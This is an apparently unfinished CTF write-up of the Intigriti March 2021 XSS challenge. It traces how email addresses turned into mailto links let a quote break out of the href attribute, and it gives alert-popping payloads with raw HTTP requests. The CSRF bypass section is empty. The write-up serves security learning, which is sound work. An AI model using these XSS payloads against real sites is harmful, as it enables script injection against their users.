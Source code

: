 
Intigriti March XSS challenge

Problem Statement
----------------------
URL : https://challenge-0321.intigriti.io/

![image](https://user-images.githubusercontent.com/19681324/113403529-6c9c7c80-93c4-11eb-8f6f-b5aa5ee503e0.png)

Let's Pop an alert
------------------
At the bottom of the page there is an **Your notes:** section. 
![image](https://user-images.githubusercontent.com/19681324/113403778-d026aa00-93c4-11eb-88f6-7d793631fccc.png)

Check out the source of the html page
```html
  <div class="card-container">
         <form method="POST" action="./" id="update-notes">
            <div class="card-header">Your notes:<span id="actions"><a id="notes-save" href="#">save</a></span></div>
            <p id="notes-display" class="card-content" contenteditable="true">No notes saved.</p>
            <input type="hidden" name="csrf" value="6896be5ae9b23b85432afab717277824"/>
            <input type="hidden" id="notes-value"  name="notes" value=""/>
         </form>
      </div>
      <script>
          var _note = document.getElementById("notes-display").innerText;   // (1)
          document.getElementById("notes-display").onkeyup = function(e){   // (2)
            var note = document.getElementById("notes-display").innerText;
            if(note != _note){
              document.getElementById("notes-save").style.visibility = "visible";
            }
            else{
              document.getElementById("notes-save").style.visibility = "hidden";
            }
          }
          document.getElementById("notes-save").onclick = function(e){  // (3)
            document.getElementById('notes-value').value = document.getElementById('notes-display').innerText;
            this.closest('form').submit();
            return false;
          }
      </script>
   </body>
   <!-- page generated at 2021-04-02 09:36:09 --> 
</html>
```
Break down the source in different steps:
  - There is a form with id update-notes. Notable thing in the form is `<p>` tag with attribute `contenteditable="true"`, we will revisit this cause this important.
    - Form has two hidden input field: csrf , notes
    - csrf value 6896be5ae9b23b85432afab717277824 seems to be an MD5 value
    - ![image](https://user-images.githubusercontent.com/19681324/113405642-c6eb0c80-93c7-11eb-9e47-f29410a59178.png)
  - Script section
    - (1) declare _note and assing innerText of note-display paragraph
    - (2) onkeyup event on note-display check note-display paragraph innerText is changed, if yes then display the save button, else hide the save button
    - (3) on clicking the save button assign the innerText of notes-display to notes-value and submit the form.
  - one more interesting thing to note is the comment `<!-- page generated at 2021-04-02 09:36:09 --> ` at the bottom of the page

Changing the note and clicking on save will send a POST request and updated note will be reflected on the page
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Connection: close
Content-Length: 58
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=36cd9b23b082ae06c73c73e79a6dc64f&notes=No+notes+saved
```
If we add  special character like <> , & these were being html escaped in the response from the server, however charaters like !, #, $, @, ^,*,(,),',"  were not html escaped
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=504d6da7a099d980ac787f87850626b4&notes=No+notes+saved+%3C%3E%3C%3C%21%23%24%40%5E%26*%23%28%23%29+%27%22%2C
```
Response

```html
     <div class="card-container">
         <form method="POST" action="./" id="update-notes">
            <div class="card-header">Your notes:<span id="actions"><a id="notes-save" href="#">save</a></span></div>
            <p id="notes-display" class="card-content" contenteditable="true">No notes saved &lt;&gt;&lt;&lt;!#$@^&amp;*#(#) '",</p>
            <input type="hidden" name="csrf" value="be98377d284ac8c558ac9c8303f50ab1"/>
            <input type="hidden" id="notes-value"  name="notes" value=""/>
         </form>
      </div>
```

One interesting transformation of response occure while updating note-display to an url or email
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=e15e6d924554f427fd53ff9b5b319069&notes=https://www.google.com+abc@def.com
```
Response
```html
<p id="notes-display" class="card-content" contenteditable="true">
  <a href="https://www.google.com " target="_blank">https://www.google.com </a>
  <a href="mailto:abc@def.com">abc@def.com</a>
</p>
```
URL and email addresses are turning into an anchor tag.
![image](https://user-images.githubusercontent.com/19681324/113423650-7df97f00-93ec-11eb-8e96-b8fda73ef182.png)

However invalid email addresses and URL were not getting transformed e.g. invalid url- https:/www.google.com   invalid email - @soemthing.com
```html
  <p id="notes-display" class="card-content" contenteditable="true">
    https:/www.google.com  @soemthing.com
  </p>
```

Tried a lot with url to escape the anchor tag and alert the flag, but didn't work. 
Doing a simple google search with the text xss email payload , first result is https://brutelogic.com.br/blog/xss-limited-input-formats/  which suggest a xss payload to use is `"<svg/onload=alert(1)>"@x.y` , bruteforce tweets this as well
![image](https://user-images.githubusercontent.com/19681324/113426701-79839500-93f1-11eb-8a37-c33d39ec712b.png)

but <> characters are escaped by the server side
```html
<a href="mailto:"&lt;svg/onload=alert(1)&gt;"@x.y">"&lt;svg/onload=alert(1)&gt;"@x.y</a>
```
however " are not escaped, as we can see avobe we came out of href attribute. So changing the payload slightly to `"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y` we get a response like this
```html
<p id="notes-display" class="card-content" contenteditable="true">
<a href="mailto:"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y">"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y</a>
```
which gets us an alert 
![image](https://user-images.githubusercontent.com/19681324/113427645-0a0ea500-93f3-11eb-93b3-9571e871e645.png)

It's not solved yet, as mentioned in the solution section of the CTF self-xss are not allowed. so we have to trick someone into clicking a link and triggering the xss. but there is one problem. There is CSRF protection. Using an invalid csrf token gives us a 403 forbidden response and csrf token changes each time we send a request to the server
```html
HTTP/1.1 403 Forbidden
Server: nginx/1.17.10
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
```

CSRF Bypass
-----------




Things i tried but didn't work
------------------------------

tried `javascript://%0Aalert(1)`
tried `"<svg/onload=alert(1)>"@x.y`

